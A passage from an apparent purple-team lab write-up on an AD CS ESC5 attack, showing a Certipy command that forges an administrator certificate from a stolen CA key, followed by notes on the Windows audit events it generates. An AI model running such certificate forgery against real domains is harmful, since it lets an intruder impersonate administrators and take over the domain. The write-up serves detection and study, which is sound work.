 - Forge a pfx file

```
┌──(kali㉿kali)-[~]
└─$ certipy forge -ca-pfx 'DC01-CA.pfx' -upn administrator@purpleteam.local
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

## 6.2 Event logs

As there is no certificate request made to the CA, there is no ADCS related logs. I however enabled few audit policy to still be able to monitor the activity. 
You can find below details about logs that were generated.

1. Service creation through svcctl named pipe
![ESC5-5145-Service-Creation.jpg](ESC5/ESC5-5145-Service-Creation.jpg)